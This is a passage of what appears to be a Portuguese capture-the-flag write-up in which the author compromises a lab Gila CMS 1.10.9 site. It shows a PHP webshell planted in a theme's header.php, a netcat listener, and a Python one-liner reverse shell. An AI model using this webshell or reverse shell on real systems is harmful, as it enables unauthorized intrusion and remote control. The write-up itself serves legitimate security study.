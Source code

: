 Logando:

![Pasted image 20220601092834](https://user-images.githubusercontent.com/77530544/171439418-ddf03baf-9cd4-4823-af0e-946d09154ba0.png)

Agora temos acesso à pagina **admin**:

![Pasted image 20220601092914](https://user-images.githubusercontent.com/77530544/171439487-a50b88ec-319c-48d9-9e2a-182efb121d6e.png)

Com isso, conseguimos saber a versão do **Gila CMS**: 1.10.9
Obtivemos acesso à um painel de admin, com direito até a um **File Manager** com **adição**, **remoção** e **update** de arquivos:

![Pasted image 20220601093523](https://user-images.githubusercontent.com/77530544/171439692-5778287d-fc1d-4c79-8f74-a2f8fb19dd8e.png)
![Pasted image 20220601093640](https://user-images.githubusercontent.com/77530544/171439723-f4b9376a-1d7a-48ec-9240-647f39d01e6b.png)

Iremos modificar o arquivo **/themes/gila-blog/header.php** atrás de obter um **reverse shell** através de um **webshell**:

```
[...]
<?php
system($_GET["cmd"]); # Retorna web shell que aceita input
view::stylesheet('lib/gila.min.css');
view::stylesheet('lib/font-awesome/css/font-awesome.min.css');
view::head()?>
<style>
[...]
```

Hora de testar o **webshell**, para isso vamos até **cmess.thm** e no final do endereço vamos adicionar "**?cmd=ls**", para rodar o comando **ls** naquele **webshell**, que nos retornará uma listagem de diretório, bem no começo da página:

![Pasted image 20220601095445](https://user-images.githubusercontent.com/77530544/171439769-64cffdd3-d820-4aef-bb7a-12fefc9d4fa7.png)

Decidi usar **Python** para obter este **reverse shell**, então para isso vamos descobrir a versão que temos instalada em nosso alvo rodando **"?cmd=Python3 --version"**:

![Pasted image 20220601100556](https://user-images.githubusercontent.com/77530544/171439809-332fb639-371a-42be-aa8d-2b4a9583c62b.png)

Agora vamos abrir um **listener** em nossa máquina, que irá ficar esperando a conexão da máquina alvo.

```
nc -lnvvvp 6666                                                                     
Listening on any address 6666
```

Os comandos que vamos inserir em nosso **webshell** agora serão um pouco mais robustos. **Exemplo de reverse shell em Python com uma linha de código**:  
*Leitura recomendada: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
